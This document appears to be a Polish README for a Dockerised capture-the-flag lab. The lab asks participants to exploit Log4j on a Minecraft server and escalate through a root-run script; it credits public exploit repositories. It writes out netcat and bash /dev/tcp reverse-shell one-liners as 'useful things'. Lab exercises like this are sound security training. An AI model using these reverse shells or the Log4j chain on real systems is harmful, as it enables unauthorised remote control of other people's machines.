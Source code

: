 # minecraft-ctf

- próbujesz uruchomić sklauncher (jak nie masz javy, to se pobierz i zainstaluj)
- dockera też potrzebujesz (duh)
- odpalasz docer compose
- to ci uruchamia 3 kontenery
- dwa są tak jakby 'twoje', marshaller i httpcode. 'twoje' oznacza, że w topologii realnej są procesami, które ty kontrolujesz i stawiasz na swoim kompie, tutaj są w dockerach, żeby usprawnić całość,
- twoje zadanie jest następujące: zdobyć flagę wykorzystując podatność Log4j i kilka innych rzeczy :DD
- w tym celu:
  1. Uruchom Minecraft:
     1. Odpalasz SKLauncher, wybierasz tryb ofline,
     2. Klikasz + po prawej od "Installations Manager",
     3. Wybierasz release 1.8.8, SAVE, potem PLAY,
  2. Uruchom server mc (przy okazji inne kontenery):
     1. W repo komenda: `docker-compose up` albo `docker compose up`, uruchomi ci wszystkie kontenery, m.in. server minecrafta,
  3. 
  4. masz za zadanie wykorzystać podatność Log4j,
  5. kod hostowany na httpcode musisz przygotować i skompilować (kompilacja się dzieje podczas budowania kontenera),
  6. kod musi ci umożliwić kontrole na serverze
  7.  musisz znaleźć skrypt bashowy wykonywany z uprawnieniami roota, który możesz zmodyfikować,
  8.  zmodyfikować go tak, by ...
  9.  ...
  10. teraz masz dostęp do pliku z flagą,
  11. wyślij screen flagi na upela ;D
  12. udanej zabawy!



Przydatne rzeczy:

Reverse shell:
```sh
# https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# odpalasz nasluchiwanie tcp na porcie `5000` na swoim kompie
nc -l 5000

# na kompie ofiary na którym możesz uruchomić komendę robisz
# (musisz wejść w basha - czyli wpisz `bash` w terminal)
# (w zsh /dev/tcp/[ip]/[port] nie działa )
bash -i >& /dev/tcp/[ip mojego kompa]/5000 0>&1
# albo to (ale mi nie działało)
nc [ip mojego kompa] 5000 –e /bin/bash


# Możesz to przetestować robiąc w jednym terminalu
nc -l 5000
# a w drugim
bash -i >& /dev/tcp/127.0.0.1/5000 0>&1
```

Zbudowanie i uruchomienie kontenera:
```bash
# budowanie obrazu:
docker build . -t nazwa-obrazu
docker build . -t nazwa-obrazu:wersja

# uruchomienie obrazu (wtedy mamy uruchomiony kontener)
docker run -p 25565:25565 -ti 
```

EOL:
```md

VSCode:
- Minecraft-Log4j-Exploit/server/start_server.sh
- CTRL + SHIFT + P
- EOL sequence

```


Credits:
https://github.com/Justin-Garey/Minecraft-Log4j-Exploit
https://github.com/mbechler/marshalsec
https://lipanski.com/posts/smallest-docker-image-static-website


lf w starcie
odpalic trzy kontenery bez przeszkod
wejsc na server mc wpisac komende

netcata nie ma na windowsie, trzeba wsl, albo zainstalowac,
do pliku trzeba dawać to co chcemy uruchomić
jak zatrzymać bash -c reverse shell?
echo to wbudowana funkcja basha, a nie żadna binarka 


allready allocated port: docker desktop delete container, 

docker ps
docker ps -a
docker build && docker run, docker kill && docker remove
